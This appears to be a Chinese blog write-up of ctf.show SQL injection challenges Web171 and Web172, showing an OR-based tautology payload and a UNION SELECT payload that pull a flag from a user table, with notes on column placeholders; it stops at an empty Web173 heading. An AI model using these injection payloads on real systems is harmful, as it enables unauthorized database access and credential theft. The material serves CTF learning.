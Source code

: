 ```yaml
---
title: ctf_show刷题--Web入门SQL注入篇
abbrlink: a02bf74
date: 2022-09-24 08:57:00
cover: false
tags:
  - CTF-Web
categories:
  - CTF
  - Web安全
  - 刷题
typora-root-url: ..
---
```


# Web171

<img src="/images/ctf-web04/image-20220924085925927.png" alt="image-20220924085925927" style="zoom:67%;" />

上面给出了拼接后的查询语句:

```sql
select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;
```

用户输入的数据是`".$_GET['id']."`

输入 `1'or'1'='1`

那么拼接后就是

```sql
select username,password from user where username !='flag' and id = '1'or'1'='1' limit 1;
```

通过一个`'1'='1'`绕过了前面的限定条件拿到flag

需要注意的是这个的1是字符串数据,所以也得加引号

<br>

***

<br>

# Web172

相比与171, 返回时会检测`username`这一列是否有'flag'字符串

所以用之前的方法无法再输出flag

<img src="/images/ctf-web04/image-20220924092245542.png" alt="image-20220924092245542" style="zoom:67%;" />

尝试 `union`查询, 让`username`这一列不出现flag就好了

```
1'union select 1,(select password from ctfshow_user2 where username='flag') %23
```

<img src="/images/ctf-web04/image-20220924092455237.png" alt="image-20220924092455237" style="zoom:67%;" />

在密码这一列输出了flag (**%23解码后为#**)

```sql
# 上面拼接后的查询语句为:
select username,password from ctfshow_user2 where username !='flag' and id = '1'union select 1,(select password from ctfshow_user2 where username='flag') #' limit 1;
```

>**union select 1** 的含义:
>
>在union查询中, 前后查询必须列数相同, 如果不加这个1, 后面的查询只有password一行会报错
>
>因此1在这里就起到了一个占位符的作用, 充当一个单独的列和前面查询多出来的列相对应
>
>所以, 类似地:
>
>如果前面的查询是`select username,password,xxx from`这样,结果为三列的
>
>那么union select 后就要改为 `union select 1,2,....`此时就需要两个占位符
>
>当然, 这里的1,2换成别的啥也无所谓, 它只是过来充数的
>
>![image-20220924093207112](/images/ctf-web04/image-20220924093207112.png)

<br>

***

<br>

# web173




